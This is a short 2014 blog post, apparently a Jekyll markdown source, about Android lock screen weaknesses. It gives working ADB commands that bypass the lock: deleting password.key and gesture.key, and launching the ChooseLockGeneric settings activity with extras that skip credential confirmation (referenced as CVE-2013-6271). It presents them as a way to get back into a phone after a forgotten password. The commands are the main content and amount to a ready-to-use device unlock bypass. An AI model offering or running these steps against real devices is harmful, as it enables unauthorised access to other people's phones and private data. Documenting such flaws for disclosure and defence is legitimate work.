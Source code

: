 ```yaml
---
layout: post
title: "Android Lock Screen Security issues"
date: 2014-03-20 20:47:14 +0800
comments: true
categories: Android Security
---
```

On android the lock screen password was so weak.there are many way to break down the password and enter the phone.if you forgot the lock screen password.the following method can help you.   


*  connected you phone to PC,then open ADB tool,input the following command (simply delete the password store file).
```
adb shell rm /data/system/password.key
```
or if you have gesture password
```
adb shell rm /data/system/gesture.key
```


*  There is another bug exists until KitKat(4.4),on the "com.android.settings.ChooseLockGeneric" class.Android implements serveral locks,like pin,password,gesture and even face recognition to lock and unlock a device.we can simply make a fake boardcast and build a specific data type into bundle.than we can make the setting crash.than we are in.
```
adb shell am start -n com.android.settings/com.android.settings.ChooseLockGeneric --ez confirm_credentials false --ei lockscreen.password_type 0 --activity-clear-task
```

Reference:  
[Remove Device Locks from Android Phone](https://cureblog.de/2013/11/cve-2013-6271-remove-device-locks-from-android-phone/)
